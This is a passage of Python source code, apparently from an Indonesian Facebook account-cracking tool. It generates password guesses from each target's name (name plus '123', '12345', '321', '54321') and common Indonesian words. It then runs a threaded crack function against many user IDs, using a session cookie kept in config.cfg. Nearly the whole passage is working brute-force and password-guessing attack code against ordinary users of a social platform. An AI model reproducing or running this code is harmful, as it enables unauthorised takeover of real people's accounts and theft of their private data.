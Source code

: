 						name[2]+"123",
						name[2]+"12345",
						name[2]+"321",
						name[2]+"54321",
						"mantan", "anjing", "sayang"
					]
				elif len(name) == 4:
					listpw = [
						name[0]+"123",
						name[0]+"12345",
						name[0]+"321",
						name[0]+"54321",
						name[1]+"123",
						name[1]+"12345",
						name[1]+"321",
						name[1]+"54321",
						name[2]+"123",
						name[2]+"12345",
						name[2]+"321",
						name[2]+"54321",
						name[3]+"123",
						name[3]+"12345",
						name[3]+"321",
						name[3]+"54321",
						"mantan", "anjing", "sayang"
					]
				else:
					listpw = [
						"akusayangkamu",
						"bismillah",
						"anjing",
						"mantan",
						"bajingan",
						"palestine",
						"assalamualaikum"
					]
				sub.submit(crack,(usenm[0]),(listpw))

	elif tnya in list("Yy"):
		print("[!] Write extra password\n    Ex: name,name123")
		with ThreadPoolExecutor(max_workers=30) as sub:
			exr = input("[-] extra password: ").split(",")
			for uid in id:
				usenm = uid.split("|")
				sub.submit(crack,(usenm[0]),(exr))

	print("\n[✓] Crack selesai..")


if __name__ == "__main__":
	os.system("clear")

	try:
		config = open("config.cfg","r").read().replace("\n","").split("||")
		ged = r.get(url+"/home.php", cookies={"cookie":config[0]}).text
		if "mbasic_logout_button" in str(ged):
			menu()
		else:
			exit("[=] Cookie expired\n")
			os.remove("config.cfg")
	except FileNotFoundError:
		print("[!] Login dulu bro")
		cookie = input("[-] Cookie: ")
		td = threading.Thread(name='Log-in',target=Login(cookie).Cookies())
		td.start()
		print("[✓] Login successfully")